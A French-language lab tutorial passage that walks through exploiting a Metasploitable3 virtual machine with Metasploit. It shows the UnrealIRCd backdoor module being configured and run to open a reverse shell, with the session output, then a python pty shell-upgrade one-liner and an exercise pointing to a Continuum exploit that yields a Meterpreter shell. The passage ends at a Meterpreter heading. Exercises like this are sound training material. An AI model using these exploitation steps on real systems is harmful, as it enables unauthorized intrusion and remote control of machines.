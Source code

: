 Enfin, il faut s’assurer que toutes les options obligatoires ont les bonnes valeurs. Vous devrez définir les options suivantes (spécifiez les adresses IP correspondant aux vôtres):
```zsh
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rhosts 192.168.229.132
rhosts => 192.168.229.132
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rport 6697
rport => 6697
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set lhost 192.168.229.129
lhost => 192.168.229.129
```

Exécutez ensuite le module. Vous devriez avoir un _shell_ sur la victime :
```zsh
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 192.168.229.129:4444
[*] 192.168.229.132:6697 - Connected to 192.168.229.132:6697...
    :irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
    :irc.TestIRC.net NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address inst
[*] 192.168.229.132:6697 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo geWhE8TWq62KmzGn;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "geWhE8TWq62KmzGn\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (192.168.229.129:4444 -> 192.168.229.132:56526) at 2021-10-10 

whoami
boba_fett
hostname
metasploitable3-ub1404
```

Le shell obtenu est très rudimentaire. On peut l’améliorer avec la commande suivante (qui requiert cependant que python soit installé sur la cible) :

```zsh
python -c 'import pty;pty.spawn("/bin/bash")'
```

### Port 8080

Au port 8080 on peut accéder à la page d’une application nommée « Continuum ». Quel module Metasploit permet d’exploiter une vulnérabilité sur cette application? 

Lorsque vous chargerez ce module, vous constaterez (avec `show payloads`) que Metasploit charge un payload par défaut : le shell _Meterpreter_. Vous n’avez donc pas besoin de spécifier un payload. Définissez les options du module et lancez l’exécution.

### Meterpreter : bref aperçu
